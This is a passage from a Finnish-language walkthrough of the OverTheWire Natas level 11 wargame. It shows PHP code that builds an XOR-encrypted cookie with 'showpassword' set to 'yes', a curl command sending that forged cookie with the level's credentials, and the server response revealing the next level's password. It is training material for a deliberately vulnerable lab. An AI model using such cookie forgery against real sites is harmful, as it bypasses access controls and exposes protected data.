echo base64_encode(xor_encrypt(json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"))));

?>
```


Nyt alkoi pelittää vihdoinkin eli ongelmana oli itsellä sen salausmenetelmän avain tuloksen kanssa.

Nyt periaatteessa alkuperäisen tallennettun evästeestä korvataan uusi eväste avain


Tuosta viimeisestä luvusta näkee ainakin se on muuttunut ja toki välissäkin jotakin muutosta tapahtunut, että sen koosta (oikeaman kateogrian luvun mukaan)


Sitten viimeisenä päivitä sivusto (refresh) tämä yhteys ja sitten _voila_ ja alkoi pelittää (eli vihdoinkin.


Viimeinen tarkastelut Kali linux:sessa 
- alkuun perus `-u` (user) käytttäjän vahvistaminen perusautentikointi _username:password_
- seuraavaksi: `-b` (cookie data) - tässä tapauksessa lähettää HTTP-pyynnön mukana evästeen joka on nimetty uusi **data="VALUE"**. Tätä `data` kantsii tarkistaa sivuston evästeen nimestä, koska se nimi saatta olla nimetty muulla nimityksellä.
- Viimeisenä kohti sitä osoitetta mistä halutaan tehdä se HTTP pyynnön prosessi.
```
┌──(kali㉿kali)-[~]
└─$ curl -u natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk -b "data=HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5" "http://natas11.natas.labs.overthewire.org"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas11", "pass": "UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk" };</script></head>

<h1>natas11</h1>
<div id="content">
<body style="background: #ffffff;">
Cookies are protected with XOR encryption<br/><br/>

The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB<br>
<form>
Background color: <input name=bgcolor value="#ffffff">
<input type=submit value="Set color">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Level 11 - 4 muita ohjeita ja mini yhteenveto

https://medium.com/@n01s/solving-natas-11-df246fcf7828 <br>
https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-11-8567487106b4 <br>
https://learnhacking.io/overthewire-natas-level-11-walkthrough/ <br>
https://www.thezentester.com/natas11-natas12/ <br>
https://www.youtube.com/watch?v=blNRSTBfyVA <br>
https://www.youtube.com/watch?v=Xg7vXlZ04Og <br>

olihan tämä vaikee, mutta perus ilman netistä antamia ohjeita menisi vaikeaksi ja tästähän menty vaikeammaksi tämän salausmentelmän kanssa. Sekä olihan siinä pitkän PHP-koodikielessä vinkkiä ja ohjetta ohjeistettu, mutta sitä pitää mietiä ja pähkäillä kuinka rakentu, että purkkaa sen `no` -> `yes` muotoon. Alunperin luulin muuttamalla sen vaan, mutta ei koska se vaikuttaa sen salauksen koodin muutoksensa.


---

# LEVEL 12 - START HERE


